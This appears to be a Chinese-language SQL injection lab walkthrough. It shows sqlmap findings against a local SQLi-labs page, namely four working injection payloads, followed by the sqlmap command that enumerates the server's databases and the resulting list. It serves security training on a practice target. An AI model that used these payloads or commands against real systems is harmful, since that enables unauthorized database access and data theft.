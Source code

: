 ```shell
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 2887=2887 AND 'AvNn'='AvNn

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND (SELECT 9906 FROM(SELECT COUNT(*),CONCAT(0x71626a7871,(SELECT (ELT(9906=9906,1))),0x71706b7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'ZKaI'='ZKaI

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 6741 FROM (SELECT(SLEEP(5)))VFhU) AND 'JnUg'='JnUg

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-7696' UNION ALL SELECT NULL,NULL,CONCAT(0x71626a7871,0x57456e674756537a786a4a65727774777674726647447162576c78537375536e7a72754c524e4f4b,0x71706b7171)-- -
---
[21:36:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 7
web application technology: Apache 2.4.6, PHP 5.4.16
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[21:36:56] [INFO] fetched data logged to text files under '/home/hacker/.local/share/sqlmap/output/192.168.8.121'
[21:36:56] [WARNING] your sqlmap version is outdated

[*] ending @ 21:36:56 /2023-05-08/
```

**查询所有数据库**

```shell
[hacker@Blackarch]-[~]
>>> sqlmap --dbms="mysql" -u "http://192.168.8.121/sql-lab/Less-1/?id=1" --dbs
```

新增以下信息

```shell
[22:34:08] [WARNING] the SQL query provided does not return any output
[22:34:09] [INFO] retrieved: 'information_schema'
[22:34:09] [INFO] retrieved: 'MineCraft'
[22:34:09] [INFO] retrieved: 'ZQL'
[22:34:09] [INFO] retrieved: 'challenges'
[22:34:09] [INFO] retrieved: 'dvwa'
[22:34:09] [INFO] retrieved: 'mysql'
[22:34:09] [INFO] retrieved: 'performance_schema'
[22:34:09] [INFO] retrieved: 'security'
[22:34:09] [INFO] retrieved: 'test'
[22:34:09] [INFO] retrieved: 'web'
available databases [10]:
[*] challenges
[*] dvwa
[*] information_schema
[*] MineCraft
[*] mysql
[*] performance_schema
[*] security
[*] test
[*] web
[*] ZQL

[22:34:09] [INFO] fetched data logged to text files under '/home/hacker/.local/share/sqlmap/output/192.168.8.121'
```